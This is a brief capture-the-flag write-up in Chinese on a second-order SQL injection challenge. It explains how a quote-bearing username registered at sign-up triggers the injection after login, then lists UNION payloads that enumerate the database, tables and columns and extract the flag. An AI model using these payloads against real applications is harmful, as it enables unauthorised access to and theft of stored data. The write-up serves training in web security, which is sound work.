

# October 2019 Twice SQL Injection

## 知识点

`SQL注入`

`二次注入`

## 解题

在`register`处注册`admin`，登陆后进入首页`info`修改输入`123`正常显示`123`，`admin'`注册登录后发现报错异常，再使用`admin'#`注册登录后正常，判断是`单引号二次注入`,尝试`union`注入

```sql
' union select database()#

ctftraining

' union select group_concat(table_name) from information_schema.tables where table_schema=database()#

flag,news,users

' union select group_concat(column_name) from information_schema.columns where table_name="flag"#

flag

' union select group_concat(flag) from flag#
```

注册处注入，登录处执行，最终获取`flag`

